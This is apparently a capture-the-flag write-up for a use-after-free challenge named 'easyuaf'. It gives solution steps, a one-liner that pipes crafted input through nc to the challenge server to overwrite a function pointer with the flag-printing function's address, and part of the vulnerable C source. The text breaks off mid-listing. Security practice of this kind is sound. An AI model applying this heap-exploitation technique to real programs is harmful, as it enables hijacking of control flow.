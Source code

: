 # easyuaf

## Solution 

1. Allocate space for `org`.
2. "delete" it.
3. Allocate space for `person`. `Personal_num = 4199030`, `business_num` = 0.
4. Print a namecard with the corresponding `org` and `person`.

Run:

`python3 -c 'print("2","0","whatever","1","3","0","1","1","anything","1234","4199030","0","4","0","1", sep="\n")' | nc challs.nusgreyhats.org 10525`

## Thought process

Examine the source code first.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define BANNER "NameCard Printing Service v0.1"
#define CAPACITY 128

void ezflag()
{
    system("cat ./flag.txt");
}

typedef struct person
{
    char name[24];
    int id;
    int age;
    int personal_num;
    int business_num;
} person;

typedef struct org
{
    char name[24];
    int id;
    void (*display)(struct org*, struct person*);
} org;

person* persons[CAPACITY];
org* orgs[CAPACITY];

void display1(org* org, person *person)
{
    puts("-------------------------------------");
    printf("*** Org:  %-8s  %d ***\n", org->name, org->id);
    printf("--- Name: %s\n", person->name);
    printf("--- ID:   %d\n", person->id);
    printf("--- Age:  %d\n", person->age);
    printf("--- Personal Contact:  %d\n", person->personal_num);
    printf("--- Business Contact:  %d\n", person->business_num);
    puts("-------------------------------------");
}

void display2(org* org, person *person)
```